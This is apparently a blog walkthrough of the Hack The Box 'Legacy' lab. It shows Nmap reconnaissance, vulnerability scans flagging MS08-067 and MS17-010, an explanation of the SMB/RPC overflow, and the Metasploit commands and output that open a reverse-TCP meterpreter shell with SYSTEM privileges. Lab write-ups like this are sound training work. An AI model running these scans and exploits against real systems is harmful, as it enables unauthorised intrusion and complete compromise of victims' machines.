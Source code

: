 ﻿---
title: 'Legacy Walkthrough: Exploiting vulnerable Server Service'
date: 2024-10-18 12:00:00 +0530
categories: [red-teaming]
tags:
- HTB
- smb
- standalone
description: Walkthrough of HTB's Legacy machine
---
*Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.*

## Recon

I started with a standard Nmap scan to discover open ports:
```bash
sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.10.4 --max-retries 0 
SYN Stealth Scan Timing: About 15.49% done; ETC: 04:22 (0:00:33 remaining)
Nmap scan report for 10.10.10.4
Host is up (0.072s latency).
Not shown: 61228 closed tcp ports (reset), 4304 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```
### Nmap Flags:
- **`-sS`**: Performs a SYN scan (stealth scan).
- **`-n`**: Disables DNS resolution to speed up scanning.
- **`--disable-arp-ping`**: Skips ARP ping.
- **`-p`**: Scans all of the ports.
- **`-A`**: Agressive Scan, which performs OS Detection, Version detection, Default script scanning

### key Observations

- Port 139/445: SMB service (Windows shares).

To further identify the SMB version running and possibly determine the OS, I ran a targeted Nmap Aggressive scan:

```bash
sudo nmap -A -n -Pn --disable-arp-ping --stats-every=5s -p 139,445 10.10.10.4 --max-retries 0
PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows XP SP2 or SP3 (96%), Microsoft Windows XP SP3 (96%), Microsoft Windows Server 2003 SP1 or SP2 (94%), Microsoft Windows Server 2003 SP2 (94%), Microsoft Windows Server 2003 SP1 (94%), Microsoft Windows 2003 SP2 (93%), Microsoft Windows XP Professional SP2 or Windows Server 2003 (93%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (93%), Microsoft Windows XP SP2 or SP3, or Windows Embedded Standard 2009 (93%), Microsoft Windows XP SP2 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-10-23T08:15:17+03:00
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:b2:02 (VMware)
|_clock-skew: mean: 5d00h15m42s, deviation: 2h07m16s, median: 4d22h45m42s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
The findings strongly suggest that this machine is running Windows XP SP2/SP3

To Identify the SMB version and possible vulnerabilities for the smb

```bash
sudo nmap --script=vuln -p 139,445 10.10.10.4 -n -Pn                                         
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-18 01:00 EDT
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4
Host is up (0.081s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

```

It looks like the SMB is vulnerable to EternalBlue and NETAPI exploit.

---
### Background

If SMB is enabled on a machine, the Server Service (also know as LanmanServer) will listen for incoming SMB Conncetions on ports 139 and 445. The server service is responsible for handling requests that come in over these ports.

SMB also provides a communication channel for RPC (Remote Procedure Call). The Server service listens for RPC requests over the same ports (139/445) and forwards those requests to the appropriate service, like SAM (Security Account Manager) or LSA (Local Security Authority), using named pipes (e.g., \pipe\samr for SAM-related operations).

**SMB** = Pipeline/Channel: SMB establishes the communication channel between the client and server. It handles connection setup, session management, and access control.

**RPC** = Payload/Message: RPC encapsulates the commands or operations that need to be executed remotely. The client sends RPC calls to the server over the SMB connection, and the server sends back the RPC responses through the same SMB connection.

- In the case of CVE-2008-4250 (MS08-067), the attacker sends a specially crafted RPC request over SMB (usually on port 445).
- The Server service, which is listening on port 445, processes the incoming RPC request.
- The vulnerability in the Server service's RPC handling code is exploited by the malicious RPC request, causing a buffer overflow, allowing the attacker to execute arbitrary code with SYSTEM privileges.



---

### Exploiting through MetaSploit
As we are aware of that the machine is vulnerable to MS08-067, searching for any available exploits using search in the msfconsole
![msfconsole]({ '/assets/img/Legacy/msf_search.png' | relative_url })
Using the same exploit to pwn the machine

```bash
msf6 > use exploit/windows/smb/ms08_067_netapi
[*] Using configured payload windows/meterpreter/reverse_tcp
```

Configuring the target IP and leaving the OS flavour to metasploit to figure out

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.16.10
LHOST => 10.10.16.10
```

Running the exploit to get SYSTEM privileges, as we are exploiting the system service
```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.16.10:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176198 bytes) to 10.10.10.4
[*] Meterpreter session 2 opened (10.10.16.10:4444 -> 10.10.10.4:1033) at 2024-10-17 23:24:45 -0400

meterpreter >
```


## Disclaimer:

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*

## References

[MS08_067_Walkthrough](https://github.com/cjjduck/ms08_067_walkthrough)

[Exploit](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/)

